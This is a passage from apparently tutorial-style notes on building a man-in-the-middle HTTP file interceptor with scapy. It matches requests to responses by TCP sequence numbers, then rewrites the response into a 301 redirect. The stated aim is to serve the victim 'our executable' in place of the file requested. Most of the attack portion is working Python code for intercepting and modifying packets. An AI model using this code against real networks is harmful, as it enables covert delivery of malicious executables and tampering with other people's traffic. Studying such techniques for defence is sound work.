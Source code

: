     def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())

        if scapy_packet.haslayer(scapy.TCP) and scapy_packet.haslayer(scapy.Raw):
            if scapy_packet[scapy.TCP].dport == 80:
                if FILE_END in scapy_packet[scapy.Raw].load:
                    print("txt Request")
                    ACK_LIST.append(scapy_packet[scapy.TCP].ack)
                    print(scapy_packet.show())
            elif scapy_packet[scapy.TCP].sport == 80:
                if scapy_packet[scapy.TCP].seq in ACK_LIST:
                    ACK_LIST.remove(scapy_packet[scapy.TCP].seq)
                    print("Response replacement")
                    print(scapy_packet.show())

        packet.accept()
    ```
    * after finding a match between request and response, we want to delete the ID number (so that it will not interfere with future request/reponse matches)

### Manipulating the Response
Redirecting Responses
* our goal is to replace the requested file and serve the target a different file
* since we want to __redirect__ the client, we should use a different response code [3xx Redirection](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes#3xx_redirection)
* the most appropriate choice is the _301 Moved Permanently_
    * Client request:
        ```
        GET /index.php HTTP/1.1
        Host: www.example.org
        ```
    * Server response:
        ```
        HTTP/1.1 301 Moved Permanently
        Location: https://www.example.org/index.asp
        ```

Modifying the Payload
* we can use this example from Wikipedia to build our modified response
    * the load in the raw-layer is just string
    * in our modified load, we insert the download link to our executable
    ```python
    MODIFIED_LOAD = "HTTP/1.1 301 Moved Permanently\nLocation: https://www.win-rar.com/fileadmin/winrar-versions/winrar/winrar-x64-700.exe"

    def process_packet(packet: Packet):
        scapy_packet = scapy.IP(packet.get_payload())
        ...
        if scapy_packet[scapy.TCP].seq in ACK_LIST:
            ACK_LIST.remove(scapy_packet[scapy.TCP].seq)
            print(f"{timestamp()} Replacing File")
            print(scapy_packet.show())
            scapy_packet[scapy.Raw].load = MODIFIED_LOAD
    ```
